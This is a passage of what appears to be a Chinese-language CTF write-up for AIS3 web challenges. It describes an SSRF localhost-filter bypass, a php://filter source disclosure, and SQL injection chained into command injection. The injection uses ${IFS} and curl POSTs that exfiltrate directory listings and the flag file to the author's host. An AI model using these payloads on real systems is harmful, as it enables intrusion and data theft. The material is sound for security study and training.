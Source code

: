 - 這樣就拿到 flag ㄌ owob


### HaaS
- 一開始進去是 /haas 不能用 GET method 於是嘗試去 / 看看有什麼
- 看到輸入框，先嘗試他給的範例 url ，理解要送哪些 data
    - url
    - status
- 再亂輸入的過程中，會發現 `http://127.0.0.1` 會彈出 don't attack server
    - 看來怪怪的，感覺就是要打 localhost ㄌ 
- 嘗試 bypass
    - 參考 https://github.com/w181496/Web-CTF-Cheatsheet#本地利用
    - 試到 `127.00000.00000.0001` 就發現可以了
    - 但內容只有 alive (因為在網站上送出的 status 是 200)
- 想到在亂試的時候 status 不相同的話會跑出網頁內容
- 於是傳送 `POST http://quiz.ais3.org:7122/haas`
    - data
        - url: `http://127.00000.00000.0001`
- 就拿到 flag ㄌ

### 【5/22 重要公告】
- 看他送的 request 會發現裡面有 module=modules/api (調用其他 php)
    - 直接用 http://quiz.ais3.org:8001/?module=php://filter/convert.base64-encode/resource=modules/api 將 modules/api.php 的源碼讀出
    ```php=
    <?php
        header('Content-Type: application/json');

        include "config.php";
        $db = new SQLite3(SQLITE_DB_PATH);

        if (isset($_GET['id'])) {
            $data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
            $host = str_replace(' ', '', $data['host']);
            $port = (int) $data['port'];
            $data['alive'] = strstr(shell_exec("timeout 1 nc -vz '$host' $port 2>&1"), "succeeded") !== FALSE;
            echo json_encode($data);
        } else {
            $json_resp = [];
            $query_res = $db->query("SELECT * FROM challenges");
            while ($row = $query_res->fetchArray(SQLITE3_ASSOC)) $json_resp[] = $row;
            echo json_encode($json_resp);
        }
    ```
- 發現在使用 id 找資料時可以 sql injection
    - 在 id 找不到時，用 union select 可以替換資料
    - 例`id=0 union select 'a', 'a', 'a'` 會讓 name, host, port 都是 a
- 更改 host 的內容有機會執行自定義的指令
    - 但是有過濾掉空格，找到的解法是利用 ${IFS} 替代空格
    - 有試過 reverse shell 但我功力太弱都沒有成功
- 最後利用 curl 發 POST 到自己的電腦並用 nc listen 
    - 不用 GET 的原因是因為那時候試 GET 的時候發現只會傳過來一行，不能 ls QQ
    - 先發過去 ls `id=9 UNION SELECT 'a',"0.0.0.0';ls${IFS}/|curl${IFS}-X${IFS}POST${IFS}--data-binary${IFS}@-${IFS}http://10.153.2.250'",'80'`
    - 會發現根目錄有 `flag_81c015863174cd0c14034cc60767c7f5`
    - 發過去 cat /flag_81c015863174cd0c14034cc60767c7f5 ``id=9 UNION SELECT 'a',"0.0.0.0';cat${IFS}/flag_81c015863174cd0c14034cc60767c7f5|curl${IFS}-X${IFS}POST${IFS}--data-binary${IFS}@-${IFS}http://10.153.2.250'",'80'`` 取得 flag

